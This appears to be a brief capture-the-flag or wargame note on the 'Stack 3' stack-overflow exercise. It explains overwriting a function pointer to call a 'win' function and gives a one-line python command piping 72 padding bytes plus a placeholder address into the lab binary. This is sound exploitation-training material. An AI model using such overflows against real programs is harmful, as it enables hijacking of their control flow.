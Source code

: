 #Stack 3

Overwriting the fucntion pointer to on the stack. The goal is to change the code flow and call win function.

```
python -c 'print "A" * 72 + "address of win"' | ./stack3 
``` 

Note:
* Still little endian!!!
